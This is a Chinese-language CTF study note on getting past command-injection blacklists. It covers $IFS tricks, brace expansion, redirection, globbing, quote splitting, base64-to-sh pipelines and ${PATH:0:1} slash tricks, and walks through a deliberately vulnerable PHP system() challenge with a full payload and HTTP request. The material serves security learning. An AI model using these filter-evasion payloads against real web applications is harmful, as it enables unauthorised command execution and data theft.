

# 🛠️ 命令注入高级逃逸：空格封锁、黑名单关键字与特殊符号极限拆解

> **实战攻防情境**：在现代 WAF 或 CTF 题目中，直接输入 `cat /flag` 或带空格的系统命令几乎 100% 会被正则过滤死死卡住。出题人通常会设置如下防御规则：
> 1. 禁用空格（`\s`、`%20`）；
> 2. 禁用关键字（`cat`、`flag`、`sh`、`php`）；
> 3. 禁用斜杠 `/` 或单双引号。
> 本笔记深入 Linux Shell 词法分析器底层，拆解如何利用环境变量、花括号展开、重定向、变量拼接与通配符达成极致免杀执行。

---


> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。

## 一、空格封杀维度的 5 大破局方案

当 WAF 规则检测到空格（ASCII `0x20`）即刻拦截时，如何向命令传递参数？



### 1. 内部字段分隔符：`${IFS}` 与 `$IFS$9`（最强通用方案）

#### 机制原理解析：
* **`IFS`（Internal Field Separator）** 是 Linux Shell 的内置环境变量，用于在命令展开后将单词切分为独立的参数令牌（Tokens）。
* 其默认值正是 **`<空格><制表符><换行符>`** 三个空白字符！

#### 深入剖析：为什么必须写成 `$IFS$9`？
* 如果直接写 `cat$IFS/flag`：由于 `/` 不是合法的 Shell 变量名字符，Shell 能正确识别变量名为 `IFS`。
* 但如果要执行 `cat$IFSflag.txt`：Shell 会贪婪解析变量名为 `$IFSflag`，由于该环境变量未定义，结果被置为空字符串，最终执行 `catflag.txt`（报错：找不到命令）！
* **解决之道：`$IFS$9`**
  * 在 Shell 语法中，`$0` ~ `$9` 代表脚本执行时的位置参数（Positional Parameters）。
  * 在 Web 环境的命令注入场景下，没有额外参数传入，因此 **`$9` 的值永远为空字符串（`""`）**！
  * 当解析 `$IFS$9` 时，Shell 会精准将其拆分为：`$IFS`（展开为空格）与 `$9`（展开为空字符串），无缝衔接后续任何字母！

#### 示例对照：
```bash
cat$IFS$9/flag
cat${IFS}/flag
```

---

### 2. 标准输入重定向：`<` 与 `<>`

在 Linux 中，读取文件的命令很多都支持从标准输入（stdin）读取数据：
```bash
cat</flag
tac</flag
more</flag
cat<>/flag
```
* **参数拆解**：
  * `<`：将文件内容重定向给命令的标准输入流。
  * 命令行在解析 `cat</flag` 时，词法分析器天然将 `cat` 与 `/flag` 作为两个语法节点处理，中间**不需要任何空格**！

---

### 3. Shell 花括号参数展开（Brace Expansion）

在 Bash 环境下，花括号内的逗号列表会在词法解析初期展开为以空格分隔的参数：
```bash
{cat,/flag}
{ls,-la,/}
```
* **底层机制**：`{cat,/flag}` 在 Bash 中等价于执行 `cat /flag`，整个语句内**不包含哪怕一个空格字符**！
* *注意：此语法特性专属于 `bash` / `zsh`，在极简的 `sh` (dash) 环境中可能不支持。*

---

### 4. 控制字符替代法

在 HTTP GET / POST 传输时，利用特定的 URL 编码字符绕过应用层正则：
* **`%09`（水平制表符 Tab）**：在 Linux 终端中，Tab 键同样作为参数分隔符。
* **`%0a`（换行符 Line Feed）**：将命令拆分多行。

---

## 二、黑名单关键字封锁破局：读取命令平替矩阵

当出题人拉黑了 `cat` 关键字时，Linux 系统内拥有极为丰富的替代工具库：

| 替代命令 | 语法示例 | 适用场景与底层行为特点 |
| :--- | :--- | :--- |
| **`tac`** | `tac /flag` | 反向按行输出文件（从最后一行向上打印） |
| **`more`** | `more /flag` | 分页查看文件（非交互模式下直接输出第一屏） |
| **`less`** | `less /flag` | 分页阅读器 |
| **`head`** | `head -n 50 /flag` | 默认打印文件前 10 行 |
| **`tail`** | `tail -n 50 /flag` | 默认打印文件后 10 行 |
| **`nl`** | `nl /flag` | 类似 cat，但会在每行前输出行号 |
| **`sort`** | `sort /flag` | 对文件各行排序并输出到标准输出 |
| **`sed`** | `sed p /flag` | 流编辑器，`p` 指令直接打印文件内容 |
| **`awk`** | `awk '{print}' /flag` | 文本模式扫描，打印全文件 |
| **`strings`**| `strings /flag` | 提取文件中的可打印字符（对于二进制混杂文件极佳） |
| **`od` / `xxd`**| `od -c /flag` 或 `xxd /flag` | 以十六进制或字符转储格式输出文件 |
| **`base64`** | `base64 /flag` | 将文件整体进行 Base64 编码输出，还能绕过内容检测 |
| **`rev`** | `rev /flag` | 将文件中每一行的字符逆序反转输出 |
| **`grep`** | `grep "{" /flag` | 正则匹配并输出包含特定标志（如 `{`）的行 |

---

## 三、敏感字符串（如 `flag`）过滤深度绕过

当正则表达式将敏感词 `flag`、`passwd` 全面封杀时：

### 1. 通配符模糊匹配（Globbing）

Linux Shell 支持强大的文件通配机制：
* **`?`（匹配任意单个字符）**：
  ```bash
  cat /fl?g
  cat /fl*
  /bin/c?t /fl?g
  ```
* **`*`（匹配任意长度的字符串，包括空）**：
  ```bash
  cat /f*
  ```
* **`[...]`（字符范围匹配）**：
  ```bash
  cat /fl[a-z]g
  cat /fla[!a]
  ```

---

### 2. 字符串拼接与 Shell 转义剥离

Shell 在执行命令前，会自动执行引号剥离（Quote Removal）与转义字符解析：

#### (1) 空引号穿透法
```bash
c''at /fl""ag
c'a't /f'la'g
```
* **原理**：Shell 在词法解析时，将 `c''at` 中的空单引号直接剥离，拼接后交给解释器执行的仍然是可执行文件名 `cat`！

#### (2) 反斜杠转义字母
```bash
c\at /fl\ag
\c\a\t /\f\l\a\g
```
* **原理**：反斜杠 `\` 在普通字符前仅表示字面量本身，转义后被剥离，还原为 `cat /flag`！

#### (3) Shell 内部特殊变量插值
在 Shell 中，未赋值的位置变量或特殊变量默认展开为空：
```bash
c$@at /fl$*ag
c$1at /fl$2ag
```
* `$@` 与 `$*` 在无入参时展开为空；`$1` 与 `$2` 为空变量，因此 `c$@at` 等价于 `cat`！

---

### 3. 动态字符串变量赋值与拼接

```bash
a=fl; b=ag; cat /$a$b
x=c; y=at; $x$y /flag
```

---

### 4. 进制与 Base64 反序列化管道流

将整条命令通过编码完全隐藏，不出现任何受限的字母与空格：

#### (1) Base64 编码解码并投递给 Shell
```bash
echo$IFS$9Y2F0IC9mbGFn|base64$IFS$9-d|sh
```
* `Y2F0IC9mbGFn` 是 `cat /flag` 的 Base64 形式。
* `base64 -d` 解码后，通过管道 `|` 直接交给 `sh` 执行！

#### (2) 十六进制转义与 `printf` / `xxd`
```bash
$(printf$IFS$9"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")
```
* `\x63\x61\x74\x20\x2f\x66\x6c\x61\x67` 对应十六进制的 `cat /flag`。

---

## 四、CTF 实战靶场案例复现

### 靶场情境：极致严格的命令过滤防线

#### 目标代码（PHP 7.4）：
```php
<?php
highlight_file(__FILE__);

if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    
    // 拦截空格、cat、flag、斜杠 /、分号 ;、反引号
    if (preg_match('/\s|cat|flag|\/|;|`/i', $cmd)) {
        die("WAF: Malicious payload blocked!");
    }
    
    system($cmd);
}
?>
```

### 1. 过滤清单与限制审计
* ❌ 空格 `\s`（无法直接用空格分割参数）
* ❌ `cat`（读取文件命令被拉黑）
* ❌ `flag`（目标文件名被拉黑）
* ❌ `/`（根路径符号被拉黑）
* ❌ `;`（常规命令截断符被拉黑）
* ❌ 反引号 `` ` ``（无法直接命令替换）

### 2. 逐层攻防拆解与 Payload 构造

1. **解决路径中的斜杠 `/`**：
   * 很多 CTF 环境下，靶机当前目录往往在 `/var/www/html`，而 Flag 在根目录 `/flag`。
   * 如何在键盘完全不输入 `/` 的情况下凭空拿到斜杠？
     * **绝妙技巧：Shell 字符串截取 `${PATH:0:1}`**：
       > [!NOTE] 💡 小白扫盲：`${PATH:0:1}` 到底是什么原理？
       > * **`$PATH` 环境变量**：在 Linux 系统中，`$PATH` 变量记录了系统去哪里寻找可执行程序，它的默认值通常是 `/usr/local/bin:/usr/bin:/bin`。
       > * **Bash 字符串切片语法 `${变量名:起始下标:截取长度}`**：
       >   * 类似于 Python 的字符串切片 `str[start:start+length]`；
       >   * `0` 代表从第 0 位（最开头的第一个字符）开始；
       >   * `1` 代表只截取 1 个字符的长度。
       > * 因为 `$PATH` 的第 0 位永远是斜杠 **`/`**，所以 `${PATH:0:1}` 的求值结果就是纯正的字符 **`/`**！这样你整个 HTTP 请求里**完全没有出现 `/` 字符，却成功向系统传递了根目录斜杠**！
     * 方法 2：利用当前工作目录通过 `cd ..` 回溯：`cd$IFS$9..&&cd$IFS$9..&&...`
     * 方法 3：利用 Linux 通配符寻找根目录：在根目录下直接匹配。
2. **解决空格与读取命令**：
   * 空格替换为 `$IFS$9`。
   * `cat` 替换为 `tac`、`nl`、`more` 或 `head`。
3. **解决敏感词 `flag`**：
   * 使用通配符 `fl*` 或单引号拆分（本题单引号未被过滤）：`fl''ag` 或 `f*`。

#### 构造 Payload 方案：
```bash
tac$IFS$9${PATH:0:1}fl*
```
或者利用单引号：
```bash
tac$IFS$9${PATH:0:1}fl''ag
```

### 3. HTTP 请求验证

```http
GET /vuln.php?cmd=tac$IFS$9${PATH:0:1}fl* HTTP/1.1
Host: ctf.challenge.local
User-Agent: Mozilla/5.0
```

#### 服务器响应：
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

flag{sh3ll_sp4ce_ifs_and_gl0bbing_byp4ss_pr0!}
```
成功完美绕过所有 6 重黑名单防御，读取到底层敏感 Flag！

---

## 🔗 相关双向链接
- 上级模块：[[04-命令执行与代码执行RCE]]
- 前置基础：[[01-常见危险函数与管道符机制剖析]]
- 极限突破：[[03-无字母数字与无数字WebShell原理与异或取反自增构建]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
